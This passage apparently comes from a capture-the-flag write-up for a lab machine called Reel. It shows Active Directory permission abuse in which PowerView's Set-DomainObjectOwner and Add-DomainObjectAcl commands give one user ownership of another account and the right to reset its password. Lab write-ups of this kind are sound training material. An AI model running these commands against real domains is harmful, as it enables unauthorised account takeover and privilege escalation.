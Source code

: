 ### Abusing `nico`'s `WriteOwner` right over `herman`

*Checking the help for the* `WriteOwner` *right*, we notice we can use `PowerView`'s `Set-DomainObjectOwner` function.

![set-dom-obj-owner](/assets/Reel/set-dom-obj-owner.jpg)

**Command:** `Set-DomainObjectOwner -Identity herman -OwnerIdentity nico`

We will need to follow up with `Add-DomainObjectAcl -TargetIdentity herman -PrincipalIdentity nico -Rights ResetPassword`

![add-dom-object-acl](/assets/Reel/add-dom-object-acl.jpg)
